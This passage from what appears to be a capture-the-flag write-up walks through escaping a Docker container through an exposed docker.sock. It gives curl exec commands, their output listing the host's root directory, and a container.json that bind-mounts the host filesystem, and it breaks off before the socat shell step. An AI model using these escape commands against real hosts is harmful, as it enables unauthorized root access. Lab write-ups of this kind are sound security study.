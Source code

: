 ```

curl -s -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Cmd": ["ls", "-l", "/rootfs/root/"], "AttachStdout": true, "AttachStderr": true, "Tty": true}' http://localhost/containers/${id}/exec
{"Id":"f55b2c9d029f0588d615cbb3d4b04e2aaf1ae4438cabfa1122643ece406c4ecc"}

```

This ID is not the container ID, but the exec ID. I’ll use the `start` option to run the command and print the results:

```

root@2d24bf61767c:~# curl -s -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" http://localhost/exec/f55b2c9d029f0588d615cbb3d4b04e2aaf1ae4438cabfa1122643ece406c4ecc/start -d '{"Detach": false, "Tty": true}'
total 8
-rw-------    1 root     root            33 Sep  1 13:19 root.txt
drwxr-xr-x    3 root     root          4096 May 18 08:44 snap

```

### Socat Shell in Container w/ Host FS [Method #3]

[This blog post](https://blog.secureideas.com/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html) shows how to hook socat into the socket to get an ugly shell in the new container. Just like before, I’ll create and start a container, this time with some extra parameters. The blog recommends storing them in a `container.json` file, so I’ll do that. Pretty printed it looks like (though the real file doesn’t have the newlines or spacing):

```

{
  "Image": "sandbox:latest",
  "Cmd": [
    "/bin/sh"
  ],
  "DetachKeys": "Ctrl-p,Ctrl-q",
  "OpenStdin": true,
  "Mounts": [
    {
      "Type": "bind",
      "Source": "/",
      "Target": "/rootfs"
    }
  ]
}

```

I’ll connect to the container using `socat` (I had to upload a copy downloaded from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)), and enter an HTTP PORT request:

